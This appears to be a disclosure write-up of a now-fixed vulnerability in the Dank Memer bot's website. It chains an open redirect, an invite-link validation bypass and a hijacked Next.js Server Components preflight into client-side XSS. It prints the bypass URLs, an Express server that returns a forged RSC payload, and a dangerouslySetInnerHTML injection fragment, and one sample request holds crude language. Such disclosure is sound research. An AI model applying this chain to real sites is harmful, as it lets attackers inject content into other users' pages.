






## React2shell but inverse
*Fixed on: 27/05/2026*

[Website](https://dankmemer.lol) | [Discord](https://discord.gg/memers)

> Of all vulnerabilities in this repo, this is part of the most interesting ones.

Dank memer is a bot focused in the part of minigames. It has a pretty well known economy system used across various servers.



Firstly, I found an open redirect under `/api/auth/callback`, independently if the received code was valid, the server would redirect to any URL that were in the `state` query param:



Nothing useful for now.

I started searching on the dashboard and other pages, and noticed that there was a section for server discovery that you can configure:



To save the settings, a `PUT` request is sent to `/api/bot/server/:server_id/discovery` with the following data:

```json
{
    "discoverable":true,
    "description":"my cock is very hard",
    "invite":":invite_url",
    "tags":[]
}
```

So, the server was validating if the `invite` field had a valid Discord invite URL, but only by searching the pattern `discord.gg/<code>`, so I can set something like `https://google.com/#discord.gg/uWoAwX` and this would bypass the validation, allowing me to put any link under the "Join" button of the discovery or leaderboard pages:



This didn't look interesting at the first glance, but I noticed that when I made click on the button, if the invite URL was under the web domain (dankmemer.lol), the request would look a *slight* different:

```bash
GET /owo?_rsc=1sec8 HTTP/1.1
Host: dankmemer.lol
... [snip]
Rsc: 1
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22(top)%22%2C%7B%22children%22%3A%5B%22leaderboards%22%2C%7B%22children%22%3A%5B%5B%22id%22%2C%22:server_id%22%2C%22d%22%5D%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%2C%22%2Fleaderboards%2F:server_id%22%2C%22refresh%22%5D%7D%5D%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Url: /leaderboards/:server_id
... [snip]
```

These three headers became to my eyes, and by searching a bit in the Next.js source code, I realized that this is a RSC (React Server Components) preflight request. If you don't know what is that, [you can look here to have some background](https://www.smashingmagazine.com/2024/05/forensics-react-server-components/)

This request is expecting to get either a HTML page for redirecting to (the usual `window.location.href = "<URI>"` redirect), or a React Server Components serialized payload (`text/x-component`) to render on the client. The payload is the interesting thing, as it will render the serialized data as raw HTML.

So, by putting an URL of the form `https://dankmemer.lol/api/auth/callback?state=https://cock.com` in the invite link, would give me the ability to redirect the preflight request to a server that is under my control, but now I need to return a response that the React client would accept as a valid RSC payload. I made this wacky server on Node.js for that:

```js
const express = require("express");
const fs = require("fs");

const app = express();
const host = "127.0.0.1"; // I use cloudflare + nginx
const port = 8000;
const payload = fs.readFileSync("./test.rsc");

app.all("/", (req, res, err) => {
	// The React client will issue a CORS request when following the redirect
	res.append("Access-Control-Allow-Origin", "*"); 
	res.append("Access-Control-Allow-Headers", "*");

	// Just for cosmetics
	res.append("Content-Disposition", "inline");
	res.append("Cache-Control", "public, max-age=0, must-revalidate");
	res.append("X-Matched-Path", "/leaderboards.txt");
	res.vary("RSC, Next-Router-State-Tree, Next-Router-Prefetch");

	res.writeHead(200, {"Content-Type": "text/x-component"});
	return res.end(payload);
});

console.log(`Listening on ${host}:${port}`);
app.listen(port, host);
```

The `test.rsc` file has the respective payload. We can construct one or simply copy it from the own Dank Memer page. For this i'll use the one in `https://dankmemer.lol/discovery?_rsc=7hrcv`.

So, by returning that payload, the React client rendered the server discovery page successfully:



Then, I edited the payload to render a `div` element with any HTML that I want:

```json
["$","div",null,{"dangerouslySetInnerHTML":{"__html":""},"data-cfasync":"false"}]
```

And that worked:



You can practically modify almost everything you want in the page, from the title to the content. It's pretty fun and interesting because it's like a React2shell equivalent bug but on the client side, and as far I know there is no documented exploits or anything about this type of XSS.

The devs took a day to fix it.

